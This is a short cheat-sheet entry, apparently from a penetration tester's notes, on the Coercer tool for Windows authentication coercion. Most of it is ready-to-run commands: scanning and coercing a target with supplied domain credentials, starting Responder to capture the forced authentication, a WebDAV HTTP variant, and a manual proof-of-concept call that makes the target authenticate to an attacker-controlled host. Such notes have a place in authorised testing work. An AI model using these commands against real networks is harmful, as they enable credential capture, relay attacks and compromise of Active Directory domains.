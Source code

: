 ```yaml
---
tags:
  - tool
---
```

# Coercer

[Coercer](https://github.com/p0dalirius/Coercer) is a powerful `authentication coercion` tool that automates the abuse of 17 methods in 5 `RPC` protocols.

## Capabilities

```powershell
# Scan a target, responder not required
coercer scan -t $IP -u '$USER' -p '$PASSWD' -d $DOMAIN -v

# Start responder
sudo responder -I ens192

# Coerce the target
coercer coerce -t $IP -l $OUR_IP -u '$USER' -p '$PASSWD' -d $DOMAIN -v --always-continue
```

### Coerce HTTP

```powershell
python3 Coercer.py -t $IP -u '$USER' -p '$PASSWD' -wh $WEBDAV_HOSTNAME -wp 80 -v
```

### Misc

Each method used can be performed manually using [this](https://github.com/p0dalirius/windows-coerced-authentication-methods) repo, for example:

```powershell
python3 coerce_poc.py -u '$USER' -p '$PASSWD' -d $DOMAIN $OUR_IP $IP
```
